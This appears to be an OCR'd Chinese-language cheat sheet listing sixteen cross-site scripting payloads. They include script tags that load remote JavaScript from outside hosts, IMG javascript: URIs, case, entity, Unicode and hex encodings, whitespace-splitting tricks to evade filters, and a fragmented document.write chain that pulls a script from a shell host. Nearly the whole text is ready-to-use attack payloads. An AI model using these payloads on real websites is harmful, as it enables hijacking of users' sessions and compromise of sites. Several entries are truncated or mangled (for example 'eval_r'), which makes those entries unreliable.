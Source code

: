 ```
(1)普通的 XSS JavaScript 注入

<SCRIPT SRC=http://3w.org/XSS/xss.js></SCRIPT>

(2) IMG 标签 XSS 使用 JavaScript 命令

<IMG SRC=http://3w.org/XSS/xss.js/>

(3) IMG 标签无分号无引号

<IMG SRC=javascript:alert('XSS')>

(4) IMG 标签大小写不敏感

<IMG SRC=JaVaScRiPt:alert('XSS')>

(5) HTML 编码(必须有分号)

<IMG SRC=javascript:alert("XSS")>

(6)修正缺陷 IMG 标签

<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

(7)formCharCode 标签(计算器)

<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

(8)UTF-8 的 Unicode 编码(计算器)

<IMG SRC=jav..省略..S')>

(9)7 位的 UTF-8 的 Unicode 编码是没有分号的(计算器)

<IMG SRC=jav..省略..S')>
```



```
(10)十六进制编码也是没有分号(计算器)
<IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>

(11)嵌入式标签,将 Javascript 分开
<IMG SRC="jav ascript:alert('XSS');">

(12)嵌入式编码标签,将 Javascript 分开
<IMG SRC="jav ascript:alert('XSS');">

(13)嵌入式换行符
<IMG SRC="jav ascript:alert('XSS');">

(14)嵌入式回车
<IMG SRC="jav ascript:alert('XSS');">

(15)嵌入式多行注入 JavaScript,这是 XSS 极端的例子
<IMG SRC="javascript:alert('XSS')">

(16)解决限制字符(要求同页面)
<script>z='document.'</script><script>z=z+'write("'</script><script>z=z+'<script'</script><s
cript>z=z+'
src=ht'</script><script>z=z+'tp://ww'</script><script>z=z+'w.shell'</script><script>z=z+'.ne
t/1.'</script><script>z=z+'js></sc'</script><script>z=z+'ript>")'</script><script>eval_r(z)</script>
```